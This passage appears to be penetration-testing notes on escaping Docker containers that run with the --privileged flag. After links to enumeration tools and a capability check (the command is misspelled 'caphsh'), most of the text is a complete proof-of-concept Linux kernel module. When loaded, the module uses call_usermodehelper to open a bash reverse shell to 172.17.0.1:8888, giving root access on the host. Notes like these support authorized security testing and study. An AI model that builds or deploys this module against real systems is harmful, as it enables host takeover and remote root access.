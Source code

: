 https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/ 
- https://github.com/genuinetools/amicontained - container introspection tool can find out what capabilities are assigned
- linpeas/linenum etc - priv esc vectors and capabilities to enumerate and exploit
#### Privileged Flag
Running a container image with the `--privileged` flag provides a container with all the root capabilities of the host machine, and no security features. It’s notable to mention that other isolation techniques such as cgroups, AppArmor, and SECcomp are also disabled when the privileged flag set.

Check capabilities using [Amicontained](https://github.com/genuinetools/amicontained) or the *nix utility capsh:
```
caphsh --print
# You may need to install libcap (apk add -U lib)
```

If the container has privileged capabilities it may be possible to load kernel modules and write to the kernel space to get a reverse shell on the host:

#### PoC Reverse shell kernel module

Install linux headers:
```
sudo apt-get install -y build-essential linux-headers-$(uname -r)
```

Reverseshell_module.c:
```
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/kmod.h>

static char command[] = "bash -i >& /dev/tcp/172.17.0.1/8888 0>&1"; //Reverse shell change ip and port if needed

char *argv[] = {
    "/bin/bash",
    "-c",    // flag make command run from option list
    command, // Reverse shell
    NULL     // End of the list
};
static char *envp[] = {
    "HOME=/",
    NULL // End of the list
};

static int __init connect_back_init(void)
{

    return call_usermodehelper(
        argv[0],      // execution path
        argv,         // arguments for process
        envp,         // environment for process
        UMH_WAIT_EXEC // don't wait for program return status
    );
}

static void __exit connect_back_exit(void)
{
    printk(KERN_INFO "Exiting\n");
}

module_init(connect_back_init);
module_exit(connect_back_exit);
```
